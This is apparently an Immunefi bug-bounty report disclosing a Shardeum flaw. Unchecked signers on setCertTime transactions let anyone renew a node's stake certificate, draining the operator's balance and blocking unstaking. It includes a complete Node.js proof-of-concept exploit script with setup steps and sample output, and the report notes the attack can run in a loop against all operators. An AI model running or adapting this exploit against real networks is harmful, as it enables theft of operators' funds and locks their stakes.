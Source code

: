 
# Abusing setCertTime Transactions to drain node operators' balance and blocking unstak transaction by renewing stake certificates repeatedly

Submitted on Sun Jul 28 2024 13:37:22 GMT-0400 (Atlantic Standard Time) by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33750

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:
- Direct loss of funds

## Description


## Description
In shardeum there's a mechnism that can extends the expiration date of a stake certificate by the node that is belong to the particular staking. Such transaction is considered
internal tx type 5, according to enum ( see ref.1)
Athough shardeum check the validity (see ref.2) of the signature, its failure to check the sign owner of the transaction is the same as nominated node's public key let attacker to be able to extends the stake certification on behalf of the victim node.
Since shardeum deduct ( see ref.3) transaction cost from node operator account for transaction. The third party can drain the fund. Also unstaking is not possible (see ref.4) before the stake certificate expired, thus, attacker can renew stake certificate of aparitcular node indefintely to keep the stakes locked.

References: 
1. [enum](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/shardeum/shardeumTypes.ts#L95)
2. [validity]((https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/tx/setCertTime.ts#L86-L111))
3. [deduct](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/tx/setCertTime.ts#L264-L272)
4. [no possible](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/index.ts#L3747-L3754)





        
## Proof of concept
## Proof of Concept
- Launch a network of legit nodes 

- Please stake them

- Once you stake a node, wait for it to go active

- Node has to be staked, (Warning: this will not work on node that can be active without staking)
for some reason the first few node in shardeum go active without staking. Please launch more node than minNode is set in the config, the subsequent node will require staking.

- Grab the public key of the staked node that is in the active list you want to attack its certificate

- Create an empty node project for our attack script

- `mkdir attack`

- `cd attack`

- `npm init -y`

- `npm install axios @shardus/crypto-utils`

- create a file and name `attack.js` and copy paste the source code below

- execute below script `node attack.js [insert victim public key]`, 

(Example: `node attack.js b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e`)

```javascript
const axios = require ('axios');
const crypto = require('@shardus/crypto-utils')

crypto.init("69fa4195670576c0160d660c3be36556ff8d504725be8a59b5a96509e0c994bc")

const { publicKey, secretKey  } = crypto.generateKeypair()

const target = process.argv[2].replace('0x', '')

const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms))


const main = async  () => {
    console.log("Grabbing Nodelist ....");
    const res = await axios.get('http://0.0.0.0:4000/nodelist')
    let url = null
    const nodelist = res.data.nodeList
    const randomNode = nodelist[Math.floor(Math.random() * nodelist.length)]

    console.log("Finding victim node in active list ....");
    for(const node of nodelist) {
        if(node.publicKey === target) {
            url = `http://${node.ip}:${node.port}/account/${target}`
        }
    }

    if(!url) throw new ("Victim node is not in active yet")

    const res2 = await axios.get(url)


    const setCertTimeTx = {
        isInternalTx: true,
        internalTXType: 5,
        nominee: "",
        nominator: "",
        duration: 19, 
        timestamp: Date.now() + 1000,
    }


    setCertTimeTx.nominator = res2.data.account.nominator
    setCertTimeTx.nominee = target


    const nominator = setCertTimeTx.nominator.replace('0x', '').padEnd(64, '0')

    const before = await axios.get(`http://${randomNode.ip}:${randomNode.port}/account/${nominator}`)

    console.log("Balance and certExp before attack --------------------------------------")
    console.log(before.data);
    

    console.log("Constructing InternalTx setCertTime: ", setCertTimeTx)


    crypto.signObj(setCertTimeTx, secretKey, publicKey)
    console.log("Signing InternalTx setCertTime: ", setCertTimeTx)

    console.log("Firing InternalTx setCertTime ....")
    const res3 = await axios.post(`http://${randomNode.ip}:${randomNode.port}/inject`, setCertTimeTx)

    if(!res3.data.success) throw new Error(res3.data.reason)

    console.log("Waiting 10 sec for transaction to be finalized");
    await sleep(10000)

    const after =await axios.get(`http://${randomNode.ip}:${randomNode.port}/account/${nominator}`)
    console.log("Balance and certExp after attack --------------------------------------")
    console.log(after.data);


}

main();
```
- You can observe the balance of nominator / node operator account's balance being deducted 0.01 SHM per each tx and certExp is kept being updated to the future.

Example output -

```
Grabbing Nodelist ....
Finding victim node in active list ....
Balance and certExp before attack --------------------------------------
{
  account: {
    balance: '195700000000000000000',
    codeHash: '0xc5d2460186f7233c927e7db2dcc703c0e500b653ca82273b7bfad8045d85a470',
    nonce: '1',
    operatorAccountInfo: {
      certExp: 1722164816023,
      nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
      operatorStats: [Object],
      stake: [Object]
    },
    storageRoot: '0x56e81f171bcc55a6ff8345e692c0f86e5b48e01b996cadc001622fb5e363b421'
  }
}
Constructing InternalTx setCertTime:  {
  isInternalTx: true,
  internalTXType: 5,
  nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
  nominator: '0xd89f3526ae6f471277d68ad51b6bb1c646f49e0a',
  duration: 19,
  timestamp: 1722163476052
}
Signing InternalTx setCertTime:  {
  isInternalTx: true,
  internalTXType: 5,
  nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
  nominator: '0xd89f3526ae6f471277d68ad51b6bb1c646f49e0a',
  duration: 19,
  timestamp: 1722163476052,
  sign: {
    owner: 'be08c19a5bfd78484e318282a7d0c731d5572604e543aa25fb7f84d813a5db63',
    sig: '782052921152bad7d81850ee4683e5e68b5efd65fd3275db057f554241586ece42bfb67dc3c0b99e396320f21fc4e257d3615630721eb75c4238cdc1c3c7020e263d3aaae89a2a5949f6367d33efab75f8a83d4d99617d5fdcc09b028181881e'
  }
}
Firing InternalTx setCertTime ....
Waiting 10 sec for transaction to be finalized
Balance and certExp after attack --------------------------------------
{
  account: {
    balance: '195690000000000000000',
    codeHash: '0xc5d2460186f7233c927e7db2dcc703c0e500b653ca82273b7bfad8045d85a470',
    nonce: '1',
    operatorAccountInfo: {
      certExp: 1722165276052,
      nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
      operatorStats: [Object],
      stake: [Object]
    },
    storageRoot: '0x56e81f171bcc55a6ff8345e692c0f86e5b48e01b996cadc001622fb5e363b421'
  }
}
```
- Observe operator account's balance is drained 0.01 SHM per attack and cerExp is updated per attack. This can be run in loop.

## Impact 
As stated above, this is a direct loss of fund for node operator and blocking the unstaking of a node. Attacker can modify this script to be in loop indefinity to drain the operator account and lock the unstaking forever. This can be targeted to single operator or all the operator in the network simultaneously.